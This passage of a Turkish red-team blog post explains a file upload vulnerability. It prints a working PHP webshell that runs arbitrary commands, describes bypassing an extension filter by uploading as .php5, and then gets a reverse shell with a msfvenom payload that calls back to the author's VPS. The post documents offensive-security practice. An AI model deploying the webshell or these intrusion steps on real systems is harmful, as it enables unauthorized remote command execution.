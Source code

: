 **Dosya yükleme zafiyeti**, uygulama yüklenen dosyaları yeterince doğrulamaz veya çalıştırma kontrolleri uygulamazsa saldırganın kötü amaçlı bir betik (webshell) yükleyip sunucu üzerinde uzaktan komut çalıştırmasına olanak tanır.

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

![Error on .php Extension](/blogs/img/web-to-ad-red-teaming/redteam-15.png)

Dosya yüklerken `.php` uzantısını kabul etmediğine dair bir hata aldım. Ama aynı dosya yükleme bölümü `.php5` uzantısını kabul etti. Ve php webshell dosyamı hedefe yüklemeyi başarabildim.

![Success with .php5](/blogs/img/web-to-ad-red-teaming/redteam-16.png)

---

## Reverse Shell

Webshell'ler stabil değildir. Bu yüzden, `msfvenom` ile `windows/x64/shell_reverse_tcp` payload'unu kullanarak bir `revshell.exe` dosyası oluşturdum.

**Reverse shell** tekniği, hedef sistemdeki açıklık sayesinde saldırganın hedeften kendi kontrolündeki bir makinaya ters bağlantı açtırıp uzaktan komut çalıştırmasına olanak tanıyan güvenlik açığıdır.

![MSFVenom](/blogs/img/web-to-ad-red-teaming/redteam-17.png)

Sonrasında bu `revshell.exe` dosyasını karşı tarafa aynı upload özelliği ile yükledim ve çalıştırdım. Tabiki aynı anda kendi VPS'im üzerinde 5555 portunu dinlemeye almıştım.

![PHP Webshell](/blogs/img/web-to-ad-red-teaming/redteam-18.png)

![Getting Reverse Shell](/blogs/img/web-to-ad-red-teaming/redteam-19.png)

**Initial Access** adımı tamamlanmış oldu ve içeriye giriş sağlayabildim. Ama çok düşük bir yetkiye sahibiz.

---
